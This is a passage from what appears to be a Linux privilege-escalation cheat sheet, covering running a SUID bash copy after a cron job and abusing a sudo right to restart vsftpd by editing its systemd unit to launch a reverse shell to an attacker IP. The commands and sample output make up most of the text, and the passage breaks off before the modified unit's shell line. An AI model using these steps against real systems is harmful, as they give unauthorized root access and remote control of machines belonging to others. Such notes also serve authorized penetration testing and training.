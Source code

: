Wait for the cron job to execute
```bash
sleep 60
/tmp/bash -p
```

<br>

## Restart service
> Locate the config file for the respective service and replace _action on reload_ with a reverse shell

**Test**
```bash
sudo -l
```
```plain
(ALL : ALL) /usr/sbin/service vsftpd restart
```

**Exploit**
View the config file for the service (`vsftpd` in this example)
```bash
locate vsftpd.service
```
```plain
/etc/systemd/system/multi-user.target.wants/vsftpd.service
```
Add the attacker IP in the modified service config (reverse shell).
<div style="display: flex; justify-content: space-between;">
  <div style="flex: 1; padding: 2px; min-width: 300px;">
    <p>Default service configuration</p>
    <pre style="overflow-x: auto; white-space: nowrap;">
    ```conf
    [Unit]
    Description=vsftpd FTP server
    After=network.target

    [Service]
    Type=simple
    ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
    ExecReload=/bin/kill -HUP $MAINPID
    ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

    [Install]
    WantedBy=multi-user.target
    ```
    </pre>
  </div>
  <div style="flex: 1; padding: 2px; min-width: 300px;">
    <p>Modified service configuration</p>
    <pre style="overflow-x: auto; white-space: nowrap;">
    ```conf
    [Unit]
    Description=vsftpd FTP server
    After=network.target
